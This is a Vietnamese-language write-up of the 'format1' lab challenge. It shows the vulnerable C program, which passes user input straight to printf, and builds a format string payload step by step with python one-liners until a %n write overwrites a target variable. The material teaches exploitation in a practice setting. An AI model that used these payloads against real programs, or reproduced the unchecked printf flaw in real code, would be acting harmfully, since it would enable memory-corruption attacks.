




# **format1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Vulnerability
printf(): hàm printf() không check liệu input có đúng định dạng hay không.\
%n: write

Nếu trong hàm printf có các format string (%x, %d, %n): hàm sẽ tự động lấy các tham số tương ứng trong stack.
## Exploit
- Tìm địa chỉ biến target: 0x08049638

  
- argv[1] nằm ở phía dưới của stack: 0xbffff...

  

=> ta cần:
- Cho địa chỉ của biến target vào stack
- làm cho %n trong printf() ứng với địa chỉ của biến targe

Xây dựng attack-string:
- sử dụng kĩ thuật fixed-length attack-string như cuối video của liveoverflow
  ```
  ./format1 "`python -c "print ('\x38\x96\x04\x08' + 'A'*500)[:500]"`"
  ```
- sử dụng %x để ăn các bytes ở đầu stack đến địa chỉ target:
  ```
  ./format1 "`python -c "print ('\x38\x96\x04\x08' + '%x '*150 + 'A'*500)[:500]"`"
  ```

  
- Ta thấy địa chỉ bị lệch 2 bytes => thêm 2 ký tự bất kì vào trước để căn lề:
  ```
  ./format1 "`python -c "print ('AA\x38\x96\x04\x08' + '%x '*150 + 'A'*500)[:500]"`"
  ```
- Xóa một lượng %x vừa đủ để đến địa chỉ của target, thay bằng %n => ok:
  ```
  ./format1 "`python -c "print ('AA\x38\x96\x04\x08' + '%x '*129 + '%n' + 'A'*500)[:500]"`"
  ```



# References
A simple Format String exploit example - bin 0x11: https://www.youtube.com/watch?v=0WvrSfcdq1I